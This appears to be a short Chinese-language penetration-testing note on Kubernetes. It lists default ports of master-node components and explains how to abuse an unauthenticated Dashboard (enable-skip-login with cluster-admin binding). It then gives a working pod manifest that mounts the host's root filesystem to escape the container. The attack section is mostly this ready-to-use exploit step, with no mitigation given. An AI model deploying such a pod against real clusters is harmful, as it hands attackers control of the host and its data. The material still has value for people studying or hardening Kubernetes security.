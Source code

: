 Master节点

|      **组件名称**       | **默认端口** |
| :---------------------: | :----------: |
|       api server        |  6443、8080  |
|        dashboard        |     8001     |
|          etcd           |     2379     |
|     kube-scheduler      |    10251     |
| kube-controller-manager |    10252     |





## Dashboard未授权访问

### 利用场景

配置文件recommended.yaml中开启enable-skip-login，并且给Kubernetes dashboard绑定cluster-admin等角色，攻击者可直接在界面上创建特权pod进行容器逃逸

![img](..\..\images\894761-20240102091643342-224637774.png)

### 漏洞利用

**点击dashboard右上角的加号创建pod并挂在宿主机的根目录**

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: myapp
spec:
  containers:
  - image: nginx
    name: container
    volumeMounts:
    - mountPath: /mnt
      name: test-volume
  volumes:
  - name: test-volume
    hostPath:
      path: /
```
